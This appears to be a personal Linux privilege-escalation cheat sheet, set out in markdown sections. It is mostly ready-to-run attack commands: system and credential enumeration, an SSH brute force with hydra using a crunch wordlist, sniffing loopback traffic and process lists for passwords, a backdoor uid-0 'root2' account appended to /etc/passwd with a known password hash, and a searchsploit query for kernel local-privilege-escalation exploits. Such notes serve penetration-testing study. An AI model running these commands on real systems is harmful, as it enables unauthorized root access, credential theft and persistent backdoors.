 # linux privesc
please let me into the root fs, i am normal and can be trusted with knowledge of your drives

### // linux situational awareness
```
id
cat /etc/passwd
hostname
cat /etc/issue
cat /etc/os-release
uname -a
ps aux
ip a
routel
ss -anp
cat /etc/iptables/rules.v4
ls -lah /etc/cron*
crontab -l
sudo crontab -l
dpkg -l
find / -writable -type d 2>/dev/null
cat /etc/fstab
mount
lsblk
lsmod
/sbin/modinfo <kernel_module>
find / -perm -u=s -type f 2>/dev/null
```

### // user trails
```
env
cat .bashrc
// generate a custom wordlist based on potenital passwords
crunch <min> max<> -t <word>%%% > wordlist
// bruteforce w/ generated wordlist
hydra -l <user> -P wordlist <tgt_ip> -t 4 ssh -V
```

### // inspecting service footprints
```
watch -n 1 "ps -aux | grep pass"
sudo tcpdump -i lo -A | grep "pass"
```

### // abusing cron jobs
```
grep "CRON" /var/log/syslog
```

### // abusing password authentication
```
openssl passwd w00t
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
w00t
id
```

### // abusing setuid binaries and capabilities
```
// search for suid bins
https://gtfobins.github.io/
```

### // abusing sudo
```
// what can we run as sudo with our current user?
sudo -l
```

### // exploiting kernel vulnerabilities
```
cat /etc/issue
uname -r 
arch
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```


